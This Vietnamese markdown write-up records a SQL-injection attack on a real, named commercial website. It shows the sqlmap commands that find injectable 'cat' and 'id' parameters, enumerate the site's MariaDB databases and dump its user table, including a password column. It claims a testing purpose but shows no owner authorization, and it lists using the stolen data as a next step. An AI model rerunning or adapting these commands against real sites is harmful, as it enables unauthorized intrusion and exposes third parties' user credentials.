





# Mục tiêu
- [x] Tìm kiếm một trang web sử dụng cơ sở dữ liệu MySQL để thực hiện kiểm thử.
- [x] Tìm kiếm các parameter có nguy cơ bị tấn công trên trang web.
- [x] Sử dụng sqlmap để thực hiện tấn công tự động vào các parameter đã tìm được, tìm kiếm nội dung nhạy cảm chứa trong các bảng khác nhau. 
- [ ] Sử dụng thông tin đã tìm được để thực hiện các thao tác tiếp theo.

# Thực nghiệm
Mọi thực nghiệm được áp dụng lên trang web `https://tranhoang.vn/`. Các cuộc tấn công được thực nghiệm trong lần thực nghiệm này đều nhằm mục đích kiểm thử bảo mật, không mang ý định tấn công người dùng bất hợp pháp.

## Nội dung thực nghiệm

Qua quá trình sử dụng web, tôi đã tìm được một số parameter:
- php: xuất hiện khi di chuyển giữa các tab trên trang web, đây là tên của file php đang được mở khi muốn hiển thị nội dung của tab đó.
- cat: mã loại hàng, xuất hiện khi chọn vào tab `Sản phẩm` và chọn một mục bất kỳ trong đó.
- id: mã hàng, xuất hiện khi chọn một sản phẩm bất kỳ.

Sử dụng sqlmap lên URL chứa các parameter đã tìm được để kiểm thử:

```bash
python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" --dbs  
```

- **php**: không thể thực hiện tấn công trên parameter này:



- **cat**: có thể thực hiện tấn công SQLi, sqlmap trả về được thông tin rằng cơ sở dữ liệu đang MySQL v5.0.12 trở lên (MariaDB). Ngoài ra đã bruteforce được tên 2 cơ sở dữ liệu là `information_schema` và `tranhoangv_binh`:



```bash
python3 sqlmap.py -u "https://tranhoang.vn/?php=product_detail&id=200" -p id --dbs
```

- **id**: có thể thực hiện tấn công SQLi, sqlmap trả về kết quả tương tự như với `cat`:



Khi đã xác định được thông tin về cơ sở dữ liệu, ta có thể sử dụng thêm các tuỳ chọn `-D` (tìm kiếm trên một database nhất định), `-T` (tìm kiếm trên một table nhất định), `-C` (tìm kiếm trên một column nhất định), `--tables` (tìm kiếm thông tin về tên các table), `--dump` (trả về tất cả thông tin trong bảng), `--threads` (sử dụng đa luồng để tìm kiếm thông tin, tăng tốc độ bruteforce),...

Sử dụng `python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" -D tranhoangv_binh --tables --threads=10 -p cat` để trả về tên các bảng trong cơ sở dữ liệu `tranhoangv_binh`.



Tiếp tục sử dụng `python3 sqlmap.py -u "https://tranhoang.vn/?php=product_view&cat=246" -D tranhoangv_binh -T tbl_user --dump --threads=10 -p cat` để trả về nội dung của bảng `tbl_user`.



Dù đã có được thông tin người dùng ở một mức nhất định, song vẫn chưa thể xác định được loại mã hoá của cột `pwd` nên không thể đảo ngược.